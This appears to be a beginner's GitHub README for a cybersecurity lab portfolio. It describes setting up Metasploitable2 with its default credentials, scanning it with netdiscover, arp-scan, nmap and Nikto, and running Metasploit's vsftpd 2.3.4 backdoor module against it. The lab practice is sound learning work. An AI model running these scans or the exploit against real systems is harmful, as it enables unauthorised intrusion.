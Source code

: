 # Cybersecurity Labs Portfolio 

Welcome to my hands-on cybersecurity lab portfolio!  
This is where I document everything I'm practicing — from virtual labs to tools like Nmap, Wireshark, Metasploit, and more.

- ## 📚 Table of Contents

- [🔥 Lab 1: Metasploitable2 Setup](#lab-1-metasploitable2-setup-vulnerable-machine-for-testing)
- [🧠 Lab 2: Nmap Scan on Metasploitable2](#lab-2-nmap-scan-on-metasploitable2)
- [🧪 Lab 3: Wireshark Packet Capture](#lab-3-wireshark-packet-capture)
- [🚨 Lab 4: Metasploit Exploit Demo](#lab-4-metasploit-exploit-demo)
- [🔐 What’s Next](#whats-next)


##  Lab 1: Metasploitable2 Setup (Vulnerable Machine for Testing)

Tool Used: VirtualBox  
System: Metasploitable2 (Ubuntu 2.6.24)  
Status:  Completed

###  What I Did:
- Imported the Metasploitable2 VM into VirtualBox
- Configured network settings (NAT and Host-only for Kali interaction)
- Logged in with default credentials: msfadmin/msfadmin
- Verified system status:
  ```bash
  ip a
  uname -a
  
##   Lab 2: Kali Linux Setup and Reconnaissance

Tool Used: Kali Linux (2025.2 VirtualBox Image)
Status: Completed

###  What I Did:
	•	Installed Kali Linux VM in VirtualBox
	•	Connected it to the same network as Metasploitable2
	•	Discovered Metasploitable2’s IP using:
 netdiscover
arp-scan -l
•	Performed a basic Nmap scan:
nmap -sS [target_IP]

##   Lab 3: Vulnerability Scanning with Nmap and Nikto

Tools Used: Nmap, Nikto
Status: Completed

###   What I Did:
	•	Conducted service/version detection:
 nmap -sV [target_IP]
 Ran Nikto for web vulnerability scanning:
 nikto -h http://[target_IP]
 
## Lab 4: Exploitation Using Metasploit

Tool Used: Metasploit Framework
Status: Completed

###  What I Did:
	•	Launched Metasploit:
 msfconsole
 •	Searched for open vulnerabilities on the target
	•	Exploited vsftpd 2.3.4 backdoor:
 use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST [target_IP]
exploit
I’ll continue adding more labs here as I learn tools like Hydra (for brute-force), Wireshark (for packet analysis), and Snort (for intrusion detection).

Stay tuned! 
 
 
